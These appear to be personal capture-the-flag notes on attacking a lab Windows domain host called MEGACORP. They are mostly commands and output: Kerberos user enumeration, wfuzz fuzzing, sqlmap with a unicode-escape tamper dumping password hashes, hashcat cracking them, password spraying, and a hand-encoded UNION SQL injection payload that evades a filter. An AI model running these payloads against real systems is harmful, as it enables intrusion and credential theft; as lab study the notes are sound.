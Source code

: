 
```
enum4linux -a 10.10.10.179
```

```
Domain Name: MEGACORP                                                         
Domain Sid: S-1-5-21-3167813660-1240564177-918740779
```


So after adding the IP in the host file got this 
![[Pasted image 20240919042226.png]]


```
kerbrute userenum -d MEGACORP.LOCAL --dc 10.10.10.179 userlist.txt -t 100
```


```
andrew@MEGACORP.LOCAL
james@MEGACORP.LOCAL
Andrew@MEGACORP.LOCAL
dai@MEGACORP.LOCAL
administrator@MEGACORP.LOCAL
alice@MEGACORP.LOCAL
ANDREW@MEGACORP.LOCAL
lana@MEGACORP.LOCAL
Administrator@MEGACORP.LOCAL
rmartin@MEGACORP.LOCAL
pmartin@MEGACORP.LOCAL
```


So we have the users will try the login page now
```
andrew
james
dai
administrator
alice
ANDREW
lana
Administrator
rmartin
pmartin
```


So the login page is a dead end but when i pressed entered in colleague finder look what we got a list of valid users
![[Pasted image 20240919153405.png]]

```
sbauer@megacorp.htb
okent@megacorp.htb
ckane@megacorp.htb
kpage@megacorp.htb
shayna@megacorp.htb
james@megacorp.htb
cyork@megacorp.htb
rmartin@megacorp.htb
zac@magacorp.htb
jorden@megacorp.htb
alyx@megacorp.htb
ilee@megacorp.htb
nbourne@megacorp.htb
zpowers@megacorp.htb
aldom@megacorp.htb
minato@megacorp.htb
egre55@megacorp.htb
```

2024/09/19 15:37:38 >  Done! Tested 17 usernames (14 valid) in 0.816 seconds

```
sbauer@megacorp.htb
okent@megacorp.htb
ckane@megacorp.htb
kpage@megacorp.htb
james@megacorp.htb
cyork@megacorp.htb
rmartin@megacorp.htb
zac@magacorp.htb
jorden@megacorp.htb
alyx@megacorp.htb
ilee@megacorp.htb
nbourne@megacorp.htb
zpowers@megacorp.htb
aldom@megacorp.htb
```

So now i think we can run the sql injection in this as it reminds me of DVWA 

So we technically have 5 fields
![[Pasted image 20240919160202.png]]

```
"id":1,
"name":"Sarina Bauer",
"position":"Junior Developer",
"email":"sbauer@megacorp.htb",
"src":"sbauer.jpg"
```


Let's automate the process and see which payload works and which is not 
```
wfuzz -c -u http://10.10.10.179/api/getColleagues -w /usr/share/seclists/SecLists-master/Fuzzing/special-chars.txt -d '{"name":"FUZZ"}' -H 'Content-Type: application/json;charset=utf-8'
```

![[Pasted image 20240919183727.png]]


So will try ' and it's value is 
```
\u27
```
and guess what we got an error

![[Pasted image 20240919184156.png]]

```
\u0027
```
![[Pasted image 20240919184507.png]]


```
sqlmap -r post_me.txt --tamper=charunicodeescape --delay 3 --level 5 --risk 3 --dbms=mssql -technique=U --batch --dump-all --exclude-sysdbs -v 3
```


And and and finally this command worked
```
sqlmap -r colleagues.req --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --dump-all --exclude-sysdbs
```

![[Pasted image 20240920032509.png]]

```
id | password                                                                                         | username |
+----+--------------------------------------------------------------------------------------------------+----------+
| 1  | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | sbauer   |
| 2  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa | okent    |
| 3  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | ckane    |
| 4  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | kpage    |
| 5  | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | shayna   |
| 6  | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | james    |
| 7  | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | cyork    |
| 8  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa | rmartin  |
| 9  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | zac      |
| 10 | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | jorden   |
| 11 | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa | alyx     |
| 12 | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | ilee     |
| 13 | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa | nbourne  |
| 14 | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | zpowers  |
| 15 | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | aldom    |
| 16 | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc | minatotw |
| 17 | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc | egre55 
```


```
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
```

So seeing the length of the hashes it's a sha but don't know if it's 256-512 or in b/w 
after some research on HashCat wiki i confirmed that it's hash 384 but didn't know if it's 
sha2 or sha3 or what.
10800	SHA2-384
17500 SHA3-384
17900 Keccak-384

And finally this worked
```
.\hashcat.exe -m 17500 -D 2 .\hashes4.txt .\rockyou.txt -O
```

```
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
Approaching final keyspace - workload adjusted.
```

Password
```
password1
finance1
banking1
```


So let's validate the password
```
crackmapexec smb 10.10.10.179 -u new_user.txt -p password.txt 
```


So tested the new users
```
kerbrute userenum -d MEGACORP.LOCAL --dc 10.10.10.179 testing.txt -t 100 
```
![[Pasted image 20240922030306.png]]


So everthing is a dead end so i refer the walkthrough and guess what there is again a sql injection to be performed.

There are many [well-known](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers) RID like **512** for the **Domain Admins** group. Let’s build a request to find out what if this attack works.
```
hello' UNION SELECT 1,sys.fn_varbintohexstr(SUSER_SID('MEGACORP\Domain Admins')),3,4,5--
```


```
\u0027\u0020\u0055\u004E\u0049\u004F\u004E\u0020\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0031\u002C\u0073\u0079\u0073\u002E\u0066\u006E\u005F\u0076\u0061\u0072\u0062\u0069\u006E\u0074\u006F\u0068\u0065\u0078\u0073\u0074\u0072\u0028\u0053\u0055\u0053\u0045\u0052\u005F\u0053\u0049\u0044\u0028\u0027\u004D\u0045\u0047\u0041\u0043\u004F\u0052\u0050\u005C\u0044\u006F\u006D\u0061\u0069\u006E\u0020\u0041\u0064\u006D\u0069\u006E\u0073\u0027\u0029\u0029\u002C\u0033\u002C\u0034\u002C\u0035\u002D\u002D
```

Final Payload
```
hello\u0027\u0020\u0055\u004E\u0049\u004F\u004E\u0020\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0031\u002C\u0073\u0079\u0073\u002E\u0066\u006E\u005F\u0076\u0061\u0072\u0062\u0069\u006E\u0074\u006F\u0068\u0065\u0078\u0073\u0074\u0072\u0028\u0053\u0055\u0053\u0045\u0052\u005F\u0053\u0049\u0044\u0028\u0027\u004D\u0045\u0047\u0041\u0043\u004F\u0052\u0050\u005C\u0044\u006F\u006D\u0061\u0069\u006E\u0020\u0041\u0064\u006D\u0069\u006E\u0073\u0027\u0029\u0029\u002C\u0033\u002C\u0034\u002C\u0035\u002D\u002D
```
